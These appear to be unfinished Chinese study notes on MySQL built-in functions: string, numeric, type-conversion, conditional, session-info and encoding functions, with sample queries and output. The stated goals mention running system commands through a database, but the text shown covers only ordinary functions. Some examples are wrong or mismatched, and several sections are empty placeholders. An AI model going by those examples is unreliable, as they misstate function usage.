**第四周 任务名称：数据库系统功能相关学习**

-------------------

[TOC]

-----------------

# 背景

**学习目标：**

1. 学习数据库自带函数的功能与用法（思考在什么情况下可以执行命令）
2. 将所有涉及的函数进行测试并举例说明其用法
3. 针对自己所选数据库，构造所需环境，尝试执行系统命令


# 一、MySQL 函数


`help  XXXX ;   #sql下函数用法帮助`

## 1 字符串函数

| 函数                                       | 描述                                                         | 实例                                                         |
| :----------------------------------------- | :----------------------------------------------------------- | :----------------------------------------------------------- |
| ASCII(s)                                   | 返回字符串第一个字母的ascii值                                | select ASCII(“str”);                                         |
| CHAR_LENGTH(s)                             | 返回字符串的字符数                                           | select CHAR_LENGTH(“str”);                                   |
| CONCAT(s1,s2……sn) CONCAT_WS(s1,s2……sn)     | 多个字符串合并为一个字符串                                   | select CONCAT(s1,s2……sn);                                    |
| FIELD(s,s1,s2……)                           | 返回第一个字符在字符串列表(s1，s2……)的位置                   | select(“s”,”a”,”b”,”c”,”s”);                                 |
| FIELD(s,s1,s2……) FIND_IN_SET(s1,s2)        | 查找字符串的位置                                             | select field(“a”,”c”,”aa”,”a”);  select find_in_set(“a”,”e,a,z”); |
| FORMAT(x,n)                                | 将x格式化，将x保留到小数点后n位，最后一位四舍五入            | select format(25.7896,2);                                    |
| INSERT(s1,x,len,s2)                        | 字符串替换，s2替换s1的x位置开始长度为len的字符串             | select insert(”google.com“,1,6,”runnob”); –输出为：runnob.com |
| LOCATE(s1,s)                               | 从字符串s中获取字符串s1的开始位置                            | select locate(“ap”,”happy”);                                 |
| LCASE(s) LOWER(s)                          | 将字符串全部变成小写字母                                     | select lcase(“ShAdoW”); select lower(“ShAdoW”);              |
| UCASE(s) UPPER(s)                          | 将字符串全部变成大写字母                                     | select ucase(“shadow”); select upper(“shadow”);              |
| LEFT(s,n)                                  | 返回字符串s的前n个字符                                       | select lower(“ShAdoW”,2);                                    |
| LPAD(s1,len,s2)                            | 在字符串s1前填充字符串s2，直到字符串长度到达len              | select lpad(“abc”,5,”x”);                                    |
| LTRIM(s)                                   | 去除字符串s前的空格                                          | select ltrim(“ soya”);                                       |
| TRIM(s)                                    | 去除字符串前后的空格                                         | select trim(“ soya “);                                       |
| SPACE(n)                                   | 返回n个空格                                                  | select space(10);                                            |
| STRCMP(s1,s2)                              | 比较字符串s1和s2，如果s1和s2相等返回0，若s1>s2返回1，反之返回-1 | select strcmp(“soya”,”soya”);                                |
| SUBSTR(s,start,len) SUBSTRING(s,start,len) | 从字符串s的start位置开始，截取长度为len的字符串。            | select substring(“shadow”,2,3);                              |

### 1.1 字符串长度

> - `length(s)`
> - `char_length(s)`
> - `character_length(s)`

**描述：**返回字符串 s 的长度。

**实例：**返回字符串 “Hello World!” 的长度。

```
mysql> select length("Hello World");
+-----------------------+
| length("Hello World") |
+-----------------------+
|                    11 |
+-----------------------+

mysql> select char_length("Hello World"); #或者 select character_length("Hello World");
+----------------------------+
| char_length("Hello World") |
+----------------------------+
|                         11 |
+----------------------------+
```

### 1.2 字符串拼接

> - `concat(s1, s2..…, sn)`，将多个字符串 s1, s2..… 合并为一个字符串
> - `concat_ws(separator, s1, s2, ..…)`，功能和 concat 函数一样，但带有分隔符
> - `group_concat()`，将同一列的内容进行拼接

```
concat(s1, s2..…, sn)
```

**描述：**将多个字符串 s1, s2..… 合并为一个字符串，如果 s1, s2..… 中有为 NULL 值得字符串则返回 NULL 值。

**实例：**从 comments 表中选择 id, comment 字段，并使用 concat 函数合并为 info 字段。

```
mysql> select concat(id,' ',comment) as info from comments;
+-----------------------------+
| info                        |
+-----------------------------+
| 1 test                      |
| 2 hhhh                      |
| 3 Need lots of improvements |
+-----------------------------+
```

**描述：**功能和 concat 函数一样，但带有分隔符，**如果分隔符为 NULL，则函数返回 NULL，而字符串为 NULL 则略过。**

**实例：**从 comments 表中选择 id, comment, comment 字段，并使用 concat_ws 函数, 以 “,” 为分隔符，合并为 infos 字段。

```
mysql> select concat_ws(',',id,comment,comment) as infos from comments;
+-------------------------------------------------------+
| infos                                                  |
+-------------------------------------------------------+
| 1,test,test                                           |
| 2,hhhh,hhhh                                           |
| 3,Need lots of improvements,Need lots of improvements |
+-------------------------------------------------------+
```

**描述：** 比较直观的理解是 `concat()` ，`concat_ws()` 将不同列的同一行内容进行拼接，而`group_concat()` 将同一列的内容进行拼接。

**语法：**

```
GROUP_CONCAT([DISTINCT] expr [,expr ...] # distinct，表示插叙的结果不能重复
             [ORDER BY {unsigned_integer | col_name | expr}
                 [ASC | DESC] [,col_name ...]]
             [SEPARATOR str_val]) # seperator:拼接分隔符，默认为 ','
```

**实例：**

```
mysql> select group_concat(comment order by comment separator '|') from comments;
+----------------------------------------------------------------+
| group_concat(comment order by comment separator '|')           |
+----------------------------------------------------------------+
| Come on!|Come on!|Come on!|hhhh|Need lots of improvements|test |
+----------------------------------------------------------------+
```

### 1.3 字符串查找

> - `field(sv, v1, v2..…)`，在列表 v1, v2… 中 查找值 sv 的位置
> - `find_in_set(sv, slist)`，搜索值 sv 在字符串列表 slist 中得位置，slist 中的值以 “,” 分开
> - `instr(string, substring)` | `locate(substring, string, [start])` | `position(subtring in string)` , `locate()`，函数可指定从字符串 string 的 start 位置处开始搜索 substring

```
field(sv, v1, v2..…)
```

**描述：**搜索值 sv 在列表 v1, v2..… 中得位置，如果 sv 为 NULL 或者 sv 不在列表中则返回0值。

**实例：**

```
mysql> select field('a', 'Happy','day','A','a');
+-----------------------------------+
| field('a', 'Happy','day','A','a') | #可见搜索不区分大小写，返回第一次搜索值出现得位置
+-----------------------------------+
|                                 3 |
+-----------------------------------+
# 在表中查找
mysql> select field('hhhh', group_concat(comment)) from comments;
+------------------------+
| field('hhhh', comment) |
+------------------------+
|                      0 |
|                      1 |
|                      0 |
|                      0 |
|                      0 |
|                      0 |
+------------------------+
```

**描述：**搜索值 sv 在字符串列表 slist 中得位置，slist 中的值以 “,” 分开。如果值 sv 不在列表中获知 slist 为空字符串，则返回 0，如果 slist 为 NULL，则返回 NULL。

**实例：**

```
mysql> select find_in_set('a', 'Not an, easy,question,a,A,a');
+-------------------------------------------------+
| find_in_set('a', 'Not an, easy,question,a,A,a') |
+-------------------------------------------------+
|                                               4 |
+-------------------------------------------------+
#slist 中的值是以","作为分隔符，分隔符之间的内容都是值的内容，包括空格。
mysql> select find_in_set('a', 'Not an, easy,question, a,A,a');
+--------------------------------------------------+
| find_in_set('a', 'Not an, easy,question, a,A,a') |
+--------------------------------------------------+
|                                                5 |
+--------------------------------------------------+
```

**描述:**查找字符串 substring 在 string 中出现的位置，如果 substring 不在 string 中，返回 0 。locate()`函数可指定从字符串 string 的 start 位置处开始搜索 substring。

**实例:**

```
mysql> select instr("Proud of you!", "you");
+-------------------------------+
| instr("Proud of you!", "you") |
+-------------------------------+
|                            10 |
+-------------------------------+

mysql> select locate("you", "Proud of you!");
+--------------------------------+
| locate("you", "Proud of you!") |
+--------------------------------+
|                             10 |
+--------------------------------+

mysql> select locate("you", "Proud of you!", 11); #从第11个字符开始搜索，搜索失败
+------------------------------------+
| locate("you", "Proud of you!", 11) |
+------------------------------------+
|                                  0 |
+------------------------------------+
```

### 1.4 字符串修改

> - `insert(s1, pos, num, s2)` ， 字符串插入
> - `replace(s, olds, news)`，字符串替换
> - `lpad(s, len, pads)` | `rpad(s, len, pads)`，字符串填充
> - `trim(s)` | `ltrim(s)` | `rtrim(s)`，字符串裁剪，去首位空格
> - `lcase(s)` | `lower(s)` ，字符串英文小写
> - `ucase(s)` | `uppser(s)`，字符串英文大写
> - `reverse(s)` ，字符串逆序

```
insert(s1, pos, num, s2)
```

**描述：** 在字符串 s1 位置插入字符串 s2， num 表示要替换的字符数，如果不需要替换，则使用 0 值。

**实例：**

```
#替换式插入
mysql> select insert("What a bad day!", 8, 3,"good");
+----------------------------------------+
| insert("What a bad day!", 8, 3,"good") |
+----------------------------------------+
| What a good day!                       |
+----------------------------------------+
#不进行替换，直接插入
mysql> select insert("What a bad day!", 8, 0,"good");
+----------------------------------------+
| insert("What a bad day!", 8, 0,"good") |
+----------------------------------------+
| What a goodbad day!                    |
+----------------------------------------+
#pos 值不在范围内，范围字符串 s1
mysql> select insert("What a bad day!", 0, 3,"good");
+----------------------------------------+
| insert("What a bad day!", 0, 3,"good") |
+----------------------------------------+
| What a bad day!                        |
+----------------------------------------+
#pos+num 大于字符串 s1 长度，替换 pos 位置后的全部字符
mysql> select insert("What a bad day!", 8, 20,"good");
+-----------------------------------------+
| insert("What a bad day!", 8, 20,"good") |
+-----------------------------------------+
| What a good                             |
+-----------------------------------------+
```

**描述：**替换字符串 s 中的子字符串 olds 为 news。

**实例：**

```
mysql> select replace("What a bad day!", "bad", "good");
+-------------------------------------------+
| replace("What a bad day!", "bad", "good") |
+-------------------------------------------+
| What a good day!                          |
+-------------------------------------------+
```

**描述：**使用字符串 pads 填充字符串 s ，至长度为 len。

**实例：**

```
#左填充
mysql> select lpad("12345", 10, "0");
+------------------------+
| lpad("12345", 10, "0") |
+------------------------+
| 0000012345             |
+------------------------+
#右填充
mysql> select rpad("12345", 10, "0");
+------------------------+
| rpad("12345", 10, "0") |
+------------------------+
| 1234500000             |
+------------------------+
```

**描述：**去除字符串首尾的空格。

**实例：**

```
mysql> select trim("     Too many spaces           ");
+-----------------------------------------+
| trim("     Too many spaces           ") |
+-----------------------------------------+
| Too many spaces                         |
+-----------------------------------------+
#首部去空格
mysql> select ltrim("     Too many spaces           ");
+------------------------------------------+
| ltrim("     Too many spaces           ") |
+------------------------------------------+
| Too many spaces                          |
+------------------------------------------+
#尾部去空格
mysql> select concat(rtrim("     Too many spaces          "), "!");
+------------------------------------------------------+
| concat(rtrim("     Too many spaces          "), "!") |
+------------------------------------------------------+
|      Too many spaces!                                |
+------------------------------------------------------+
```

**描述：**字符串英文小写。

**实例：**

```
mysql> select lcase("AllToLower");
+---------------------+
| lcase("AllToLower") |
+---------------------+
| alltolower          |
+---------------------+
```

**描述：**字符串英文大写。

**实例：**

```
mysql> select ucase("AllToUpper");
+---------------------+
| ucase("AllToUpper") |
+---------------------+
| ALLTOUPPER          |
+---------------------+
```

**描述：**字符串逆序。

**实例：**

```
mysql> select reverse("12345");
+------------------+
| reverse("12345") |
+------------------+
| 54321            |
+------------------+
```

### 1.5 子字符串提取

> - `mid(string, start, len)` | `substr(string, start, len)` | `sbustring(string, start, len)`, 任意提取子字符串
> - `left(string, num)` | `right(string, num)`，提取左/右子字符串
> - `sbustring_index(s, delimiter, num)`，提取第 num 个分隔符 delimiter 前的子字符串

```
`mid(string, start, len)`|`substr(string, start, len)`|`sbustring(string, start, len)
```

**描述：**在 string start 位置提取长度为 len 的子字符串。

**实例：**

```
mysql> select substr("123456789", 3, 3);
+---------------------------+
| substr("123456789", 3, 3) |
+---------------------------+
| 345                       |
+---------------------------+

mysql> select mid("123456789", 3, 3);
+------------------------+
| mid("123456789", 3, 3) |
+------------------------+
| 345                    |
+------------------------+
```

**描述：**从字符串首部/尾部，提取长度为 num 的子字符串。

**实例：**

```
#首部提取
mysql> select left("123456789", 3);
+----------------------+
| left("123456789", 3) |
+----------------------+
| 123                  |
+----------------------+
#尾部提取
mysql> select right("123456789", 3);
+-----------------------+
| right("123456789", 3) |
+-----------------------+
| 789                   |
+-----------------------+
```

**描述：**提取第 num 个分隔符 delimiter 前的子字符串，num 值为正数则从右到左数起，为负数则从左到右数起。

**实例：**

```
mysql> select substring_index("www.youtellme.org", ".", 1);
+----------------------------------------------+
| substring_index("www.youtellme.org", ".", 1) |
+----------------------------------------------+
| www                                          |
+----------------------------------------------+

mysql> select substring_index("www.youtellme.org", ".", -1);
+-----------------------------------------------+
| substring_index("www.youtellme.org", ".", -1) |
+-----------------------------------------------+
| org                                           |
+-----------------------------------------------+
```

### 1.6 字符串比较

> `strcmp(s1, s2)`，比较字符串的大小

**描述：**

- s1 = s2，返回 0
- s1 < s2，返回 -1
- s1 > s2，返回 1

**实例：**

```
mysql> select strcmp("abc", "Abc");
+----------------------+
| strcmp("abc", "Abc") |  #不区分大小写
+----------------------+
|                    0 |
+----------------------+

#按次序比较
mysql> select strcmp("abcd", "abdc");
+------------------------+
| strcmp("abcd", "abdc") |
+------------------------+
|                     -1 |
+------------------------+
#按次序比较
mysql> select strcmp("b", "abdc");
+---------------------+
| strcmp("b", "abdc") |
+---------------------+
|                   1 |
+---------------------+
```

### 1.7 其它操作

> - `ascii(s)`，返回字符串 s 第一个字符的 ASCII
> - `repeat(string, num)`，生成重复字符串
> - `space(num)`，生成全空格字符串
> - `format(num, n)`, 将数 num 格式化为 “xxx,xxx. xx”形式

```
ascii(s)
```

**描述：**返回字符串 s 的第一个字符的 ASCII 码。

**实例：**返回 comments 表中 comment 列的的第一个字符的 ASCII 码。

```
mysql> select comment,ascii(comment)as ASCIIOfFirstChar from comments;
+---------------------------+------------------+
| comment                   | ASCIIOfFirstChar |
+---------------------------+------------------+
| test                      |              116 |
| hhhh                      |              104 |
| Need lots of improvements |               78 |
+---------------------------+------------------+
```

**描述：**生成重复字符串 string num 次的字符串。

**实例：**

```
mysql> select repeat("Ha", 3);
+-----------------+
| repeat("Ha", 3) |
+-----------------+
| HaHaHa          |
+-----------------+
```

**描述：**生成 num 个空格的字符串。

**实例：**

```
mysql> select concat('some',space(4),'space');
+---------------------------------+
| concat('some',space(4),'space') |
+---------------------------------+
| some    space                   |
+---------------------------------+
```

`format(num, n)`,

**描述：**将数 num 格式化为 “xxx,xxx. xx”形式

**实例：**

```
mysql> select format(201910.0100, 2);
+------------------------+
| format(201910.0100, 2) |
+------------------------+
| 201,910.01             |
+------------------------+
```

## 2 数值函数

| 函数                                                 | 描述                                                         |
| :--------------------------------------------------- | :----------------------------------------------------------- |
| ABS(x)                                               | 返回x的绝对值                                                |
| ACOS(x)                                              | 求x的反余弦值（参数是弧度）                                  |
| ASIN(x)                                              | 求反正弦值（参数是弧度）                                     |
| ATAN(x)                                              | 求反正切值（参数是弧度）                                     |
| ATAN2(n, m)                                          | 求反正切值(参数是弧度)                                       |
| AVG(expression)                                      | 返回一个表达式的平均值，expression 是一个字段                |
| CEIL(x) CEILING(x)                                   | 返回大于或等于 x 的最小整数                                  |
| COS(x)                                               | 求余弦值(参数是弧度)                                         |
| COT(x)                                               | 求余切值(参数是弧度)                                         |
| COUNT(expression)                                    | 返回查询的记录总数，expression 参数是一个字段或者 * 号       |
| DEGREES(x)                                           | 将弧度转换为角度                                             |
| n DIV m                                              | 整除，n 为被除数，m 为除数                                   |
| EXP(x)                                               | 返回 e 的 x 次方                                             |
| FLOOR(x)                                             | 返回小于或等于 x 的最大整数                                  |
| GREATEST(expr1, expr2, expr3, …)                     | 返回列表中的最大值                                           |
| LEAST(expr1, expr2, expr3, …)                        | 返回列表中的最小值                                           |
| [LN](https://www.runoob.com/mysql/func_mysql_ln.asp) | 返回数字的自然对数                                           |
| LOG(x)                                               | 返回自然对数(以 e 为底的对数)                                |
| LOG10(x)                                             | 返回以 10 为底的对数                                         |
| LOG2(x)                                              | 返回以 2 为底的对数                                          |
| MAX(expression)                                      | 返回字段 expression 中的最大值                               |
| MIN(expression)                                      | 返回字段 expression 中的最小值                               |
| MOD(x,y)                                             | 返回 x 除以 y 以后的余数                                     |
| PI()                                                 | 返回圆周率(3.141593）                                        |
| POW(x,y)                                             | 返回 x 的 y 次方                                             |
| POWER(x,y)                                           | 返回 x 的 y 次方                                             |
| RADIANS(x)                                           | 将角度转换为弧度                                             |
| RAND()                                               | 返回 0 到 1 的随机数                                         |
| ROUND(x)                                             | 返回离 x 最近的整数                                          |
| SIGN(x)                                              | 返回 x 的符号，x 是负数、0、正数分别返回 -1、0 和 1          |
| SIN(x)                                               | 求正弦值(参数是弧度)                                         |
| SQRT(x)                                              | 返回x的平方根                                                |
| SUM(expression)                                      | 返回指定字段的总和                                           |
| TAN(x)                                               | 求正切值(参数是弧度)                                         |
| TRUNCATE(x,y)                                        | 返回数值 x 保留到小数点后 y 位的值（与 ROUND 最大的区别是不会进行四舍五入） |

### 2.1 统计函数

> - `greatest(v1, v2...)` | `least(v1, v2...)`，最大/最小值
> - `max(exp)` | `min(exp)`，列中的最大/最小值
> - `sum(exp)` ，求列和
> - `avg(exp)`，求列均值
> - `count(exp)`，统计查询返回的行数

```
greatest(v1, v2...)` | `least(v1, v2...)
```

**描述：**返回一系列数的最大/最小值

**实例：**

```
mysql> select greatest(1, 3, 5, 7, 0);
+-------------------------+
| greatest(1, 3, 5, 7, 0) |
+-------------------------+
|                       7 |
+-------------------------+

mysql> select least(1, 3, 5, 7, 0);
+----------------------+
| least(1, 3, 5, 7, 0) |
+----------------------+
|                    0 |
+----------------------+
```

**描述：**返回表达式 exp 计算后的最大/最小值

**实例：**

```
#列值
mysql> select max(id) from comments;
+---------+
| max(id) |
+---------+
|       3 |
+---------+
mysql> select min(id) from comments;
+---------+
| min(id) |
+---------+
|       1 |
+---------+
#表达式
mysql> select max(pow(id, 3) + 2) from comments;
+---------------------+
| max(pow(id, 3) + 2) |
+---------------------+
|                  29 |
+---------------------+
```

**描述：**返回表达式计算后系列数的和

**实例：**

```
#列值求和
mysql> select sum(id) from comments;
+---------+
| sum(id) |
+---------+
|       6 |
+---------+
#表达式计算后求和
mysql> select sum(pow(id, 2)) from comments;
+-----------------+
| sum(pow(id, 2)) |
+-----------------+
|              14 |
+-----------------+
```

**描述：**返回表达式计算后系列数的均值

**实例：**

```
#列值
mysql> select avg(id) from comments;
+---------+
| avg(id) |
+---------+
|  2.0000 |
+---------+
#表达式
mysql> select avg(pow(id, 2)) from comments;
+-------------------+
| avg(pow(id, 2))   |
+-------------------+
| 4.666666666666667 |
+-------------------+
```

**描述：**返回查询的行数

**实例：**

```
#统计 id 数
mysql> select count(id) from comments;
+-----------+
| count(id) |
+-----------+
|         3 |
+-----------+
```

### 2.2 取整函数

> - `abs(num)`，求绝对值，|num||num|
> - `ceil(num)` | `ceiling(num)`，取上整数，⌈num⌉⌈num⌉
> - `floor(num)` ，取下整数，⌊num⌋⌊num⌋
> - `round(num, [decimals])`，取约数，四舍五入
> - `truncate(num, decimals)`，截断小数部分
> - `div(x, y)`，x 除以 y，返回一个整数
> - `mod(x, y)` | `x mod y` | `x % y`，x 模 y

```
abs(num)
```

**描述：**

**实例：**

```
mysql
ceil(num)` | `ceiling(num)
```

**描述：**取上整数

**实例：**

```
mysql
floor(num)
```

**描述：**

**实例：**

```
mysql
round(num, [decimals])
```

**描述：**

**实例：**

```
mysql
truncate(num, decimals)
```

**描述：**

**实例：**

```
mysql
div(x, y)
```

**描述：**

**实例：**

```
mysql
mod(x, y)` | `x mod y` | `x % y
```

**描述：**

**实例：**

```
mysql
```

### 2.3 幂函数

> - `pow(x, y)` | `power(x, y)`，xyxy
> - `sqrt(num)`，num−−−−√num，负数返回 NULL

**实例：**

```
# 2 的 3 次方
mysql> select pow(2, 3);
+-----------+
| pow(2, 3) |
+-----------+
|         8 |
+-----------+
# 9 的根
mysql> select sqrt(9);
+---------+
| sqrt(9) |
+---------+
|       3 |
+---------+

```

### 2.4 指数和对数

> - `exp(num)`，enumenum
> - `ln(num)`，求自然对数， ln(num)ln(num)，num 要大于0，否则返回 NULL
> - `log(m, n)`，logm(n)logm(n)，n 要大于0 且 m 大于1，否则返回 NULL
> - `log2(n)`，求 2 为底 n 的对数，log2(n)log2(n)，n 要大于0，否则返回 NULL
> - `log10(n)`，求 10 为底 n 的对数，log10(n)log10(n)，n 要大于0，否则返回 NULL

**实例：**

```
mysql> select exp(1); #自然对数 e
+-------------------+
| exp(1)            |
+-------------------+
| 2.718281828459045 |
+-------------------+
mysql> select ln(exp(2));
+------------+
| ln(exp(2)) |
+------------+
|          2 |
+------------+
mysql> select log(3, 9); #3 为底 9 的对数
+-----------+
| log(3, 9) |
+-----------+
|         2 |
+-----------+
mysql> select log2(0); #n 不大于 0，返回 NULL
+---------+
| log2(0) |
+---------+
|    NULL |
+---------+
```

### 2.5 三角函数

> - `sin(num)`，求正弦
> - `cos(num)`，求余弦
> - `tan(num)`，求正切
> - `cot(num)`，求余切

**实例：**

```
mysql> select sin(pi()/2);
+-------------+
| sin(pi()/2) |
+-------------+
|           1 |
+-------------+
mysql> select sin(pi()); # sin(pi) 不为0，因为这里 pi 是个约数，实际的 pi 是无效不循环数
+------------------------+
| sin(pi())              |
+------------------------+
| 1.2246467991473532e-16 |
+------------------------+

mysql> select sin(pi()/2);
+-------------+
| sin(pi()/2) |
+-------------+
|           1 |
+-------------+
```

### 2.6 反三角函数

> - `asin(num)`，求反正弦，返回一个弧度值
> - `acos(num)`，求反余弦，返回一个弧度值
> - `atan(num)`，求反正切，返回一个弧度值
> - `acot(num)`，求反余切，返回一个弧度值
> - `atan2(n1, n2)`，求两个数的反正切，返回弧度值

**实例：**

```
mysql> select asin(1); #约等于 pi/2
+--------------------+
| asin(1)            |
+--------------------+
| 1.5707963267948966 |
+--------------------+

mysql> select pi()/2;
+--------------+
| pi()/2       |
+--------------+
| 1.5707963268 |
+--------------+
```

### 2.7 其它函数

> - `pi()`，求 ππ 值
> - `degrees(num)`，求弧度 num 的角度值
> - `radians(num)`，求角度 num 的弧度值
> - `rand([seed])`，取 [0, 1) 的随机数，可设置种子 seed，生成相同的随机数
> - `sign(num)`，返回数 num 的符号，正数为1，负数为-1，0 为 0

**实例：**

```
mysql> select degrees(2*pi()); # 2*pi 弧度为 360 角度
+-----------------+
| degrees(2*pi()) |
+-----------------+
|             360 |
+-----------------+
mysql> select radians(180); # 180度为 pi 弧度
+-------------------+
| radians(180)      |
+-------------------+
| 3.141592653589793 |
+-------------------+
mysql> select rand(); #[0,1)的随机数
+--------------------+
| rand()             |
+--------------------+
| 0.9826734987857505 |
+--------------------+
mysql> select rand(), rand(1), rand(1); #相同的种子生成相同随机数
+--------------------+---------------------+---------------------+
| rand()             | rand(1)             | rand(1)             |
+--------------------+---------------------+---------------------+
| 0.8894535832940168 | 0.40540353712197724 | 0.40540353712197724 |
+--------------------+---------------------+---------------------+

```

## 3 高级函数

| 函数                                | 描述                                                         |
| :---------------------------------- | :----------------------------------------------------------- |
| BIN(x)                              | 返回x的二进制值                                              |
| BINARY(x)                           | 将字符串 s 转换为二进制字符串                                |
| CAST(x AS type)                     | 转换数据类型                                                 |
| CASE  END                           | case表示函数开始，end结束。condition1成立，返回result1；condition2成立，返回result2……都不成立，返回result。如果一个条件成立了，后面就不执行。 |
| COALESCE(expr1, expr2, …., expr_n)  | 返回参数中的第一个非空表达式（从左向右）                     |
| CONNECTION_ID()                     | 返回服务器的连接次数                                         |
| CONV(x,f1,f2)                       | 返回f1进制数变成f2进制数                                     |
| CONVERT(s USING cs)                 | 函数将字符串s的字符集变成cs                                  |
| DATABSE()                           | 返回当前数据库名                                             |
| IF(expr,v1,v2)                      | 如果表达式expr成立，返回v1；否则返回v2                       |
| IFNULL(v1,v2)                       | 如果v1的值不为null，则返回v1；否则返回v2                     |
| ISNULL(expression)                  | 判断表达式是否为 NULL                                        |
| LAST_INSERT_ID()                    | 返回最近生成的 AUTO_INCREMENT 值                             |
| NULLIF(expr1, expr2)                | 比较两个字符串，如果字符串 expr1 与 expr2 相等 返回 NULL，否则返回 expr1 |
| SESSION_USER() SYSTEM_USER() USER() | 返回当前用户                                                 |
| VERSION()                           | 返回数据库当前版本号                                         |

### 3.1 进制转换

> - `bin(num)`，将一个数字转换为二进制表示的数字，类型为字符串
> - `hex(value)`
> - `conv(num, from_base, to_base)`，将一个数字从一个进制转换到另一个进制进行表示

**实例：**

```
# 二进制表示
mysql> select bin(9), bin(4), bin(2);
+--------+--------+--------+
| bin(9) | bin(4) | bin(2) |
+--------+--------+--------+
| 1001   | 100    | 10     |
+--------+--------+--------+
# 10进制转16进制和2进制表示
mysql> select conv(16, 10, 16), conv(16, 10, 2);
+------------------+-----------------+
| conv(16, 10, 16) | conv(16, 10, 2) |
+------------------+-----------------+
| 10               | 10000           |
+------------------+-----------------+
```

### 3.2 类型转换

> - `binary value`，将值转换成二进制字符串，注意和 `bin()` 转换成二进制形式的数字表示不同。
> - `cast(v as t)`，将值 v 转换成类型 t 表示
> - `convert(v, t)` | `convert(v using charset)`，将值 v 转换成类型 t 表示，或 使用字符集 charset 表示

**可转换的数据类型：**

| 类型值   | 描述                         |
| -------- | ---------------------------- |
| DATE     | 格式: “YYYY-MM-DD”           |
| DATETIME | 格式: “YYYY-MM-DD HH:MM:SS”  |
| TIME     | 格式: “HH:MM:SS”             |
| CHAR     | 字符类型（固定长度的字符串） |
| SIGNED   | 64 位带符号整数              |
| UNSIGNED | 64位不带符号整数             |
| BINARY   | 二进制字符串                 |

**实例：**

```
#正常字符串，比较不分大小写，所以比较结果相同
mysql> select "a" = "A"; 
+-----------+
| "a" = "A" |
+-----------+
|         1 |
+-----------+
#但二进制字符串中 "a" 和 "A" 是不同的
mysql> select binary "a" = binary "A";
+-------------------------+
| binary "a" = binary "A" |
+-------------------------+
|                       0 |
+-------------------------+
#转换成类型 DATETIME
mysql> select cast("2019-08-23 15:59:59" as datetime);
+-----------------------------------------+
| cast("2019-08-23 15:59:59" as datetime) |
+-----------------------------------------+
| 2019-08-23 15:59:59                     |
+-----------------------------------------+
#使用 gbk 字符集，表示中文
mysql> select convert("中国" using gbk);
mysql> select convert("中国" using utf8);
+------------------------------+
| convert("中国" using utf8)   |
+------------------------------+
| 中国                         |
+------------------------------+
```

### 3.3 条件判断函数

> - `case`，返回第一个满足条件的值，语法
>   `CASE`
>   `WHEN *condition1* THEN *result1*`
>   `WHEN *condition2* THEN *result2*`
>   `WHEN *conditionN* THEN *resultN*`
>   `ELSE *result*`
>   `END;`
> - `if(con, t, f)`，满足条件，执行 t 语句，反之，f 语句
> - `ifnull(expr, v)`，如果 expr 表达式值为 NULL，返回 v
> - `isnull(expr)`，判断 表达式 expr 值是否为 NULL，是返回 1，反之为 0
> - `nullif(expr1, expr2)`，如何两个表达式值相同，返回 NULL，反之返回 expr1

**实例：**

```
# case 语句
mysql> select id, name, case when id>=1 and id<3 then "p1" when id>2 and id<5 then "p2" else "p3" end as info  from test;
+----+------+------+
| id | name | info |
+----+------+------+
|  1 | May  | p1   |
|  2 | June | p1   |
|  3 | Hack | p2   |
| 10 | Cook | p3   |
+----+------+------+
# if(con, t, f)
mysql> select *, if(id>2, "p1", "p2") as part from test;
+----+------+------+
| id | name | part |
+----+------+------+
|  1 | May  | p2   |
|  2 | June | p2   |
|  3 | Hack | p1   |
| 10 | Cook | p1   |
+----+------+------+
# ifnull(expr, v)
mysql> select ifnull(NULL, "expr is null") as value;
+--------------+
| value        |
+--------------+
| expr is null |
+--------------+
# nullif(expr1, expr2)
mysql> select nullif("100", 100); #数字和字符一样
+--------------------+
| nullif("100", 100) |
+--------------------+
| NULL               |
+--------------------+
# 不分大小写
mysql> select nullif("Case","cAse" );
+------------------------+
| nullif("Case","cAse" ) |
+------------------------+
| NULL                   |
+------------------------+
```

### 3.4 数据库信息

> - `current_user()`，MySQL 授权的用户名和主机名
> - `user()` | `session_user()` | `system_user()`，当前连接的用户名和主机名
> - `database()`，当前数据库
> - `connection_id()`，当前 连接的 ID
> - `version()`，MySQL 版本号

**实例：**

```
# current_user() 和 user()|session_user()| system_user() 的区别，只有一个用户名具有多个主机才有区别，如 username@%
# 在服务器主机登陆，这四个都是一样的主机名 localhost
mysql> select  current_user(), user(), session_user(), system_user();
+-------------------+-------------------+-------------------+-------------------+
| current_user()    | user()            | session_user()    | system_user()     |
+-------------------+-------------------+-------------------+-------------------+
| user102@localhost | user102@localhost | user102@localhost | user102@localhost |
+-------------------+-------------------+-------------------+-------------------+
# 在客户端用进行远程登陆，主机名会改变
mysql> select  current_user(), user();
+-------------------+----------------------+
| current_user()    | user()               |
+-------------------+----------------------+
| user102@%         | user102@192.168.47.1 |
+-------------------+----------------------+
```

### 3.5 加解密

> - `hex(value)` | `unhex(value)`，转换成 16 进制的字符串表示，或从 16 进制字符串转回正常的字符串表示
> - `to_base64(s)` | `from_base64(s)` ，转换成 base64 编码的字符串或者从 base64 编码的字符串转回正常的字符串表示
> - `encode(s, p)` | `decode(s, p)`，将字符串 s 使用密码 p 进行 加解密
> - `compress(s)` | `uncompress(s)` 压缩或解压 s

**实例：**

```
mysql> select unhex('hhhh, who are you!');
+-----------------------------+
| unhex('hhhh, who are you!') |
+-----------------------------+
| NULL                        |
+-----------------------------+
mysql> select unhex(hex('hhhh, who are you!'));
+----------------------------------+
| unhex(hex('hhhh, who are you!')) |
+----------------------------------+
| hhhh, who are you!               |
+----------------------------------+

mysql> select to_base64('hhhh, who are you!');
+---------------------------------+
| to_base64('hhhh, who are you!') |
+---------------------------------+
| aGhoaCwgd2hvIGFyZSB5b3Uh        |
+---------------------------------+
mysql> select from_base64(to_base64('hhhh, who are you!'));
+----------------------------------------------+
| from_base64(to_base64('hhhh, who are you!')) |
+----------------------------------------------+
| hhhh, who are you!                           |
+----------------------------------------------+
# 加解密
mysql> select decode(encode('string', 'hhh'), 'hhh');
+----------------------------------------+
| decode(encode('string', 'hhh'), 'hhh') |
+----------------------------------------+
| string                                 |
+----------------------------------------+
# 压缩和解压
mysql> select uncompress(compress("What the hell!"));
+----------------------------------------+
| uncompress(compress("What the hell!")) |
+----------------------------------------+
| What the hell!                         |
+----------------------------------------+
```

### 3.6 其它函数

> - `coalesce(v1, v2, ...)`，返回列表中第一个非 NULL 值
> - `last_insert_id([expr])`，返回当表中 最新行的 AUTO_INCREMENT 属性的 id 值

**实例：**

```
mysql> select coalesce(null, "not null", 3);
+-------------------------------+
| coalesce(null, "not null", 3) |
+-------------------------------+
| not null                      |
+-------------------------------+

mysql> select last_insert_id();
+------------------+
| last_insert_id() |
+------------------+
|               10 |
+------------------+
```

## 4 日期函数

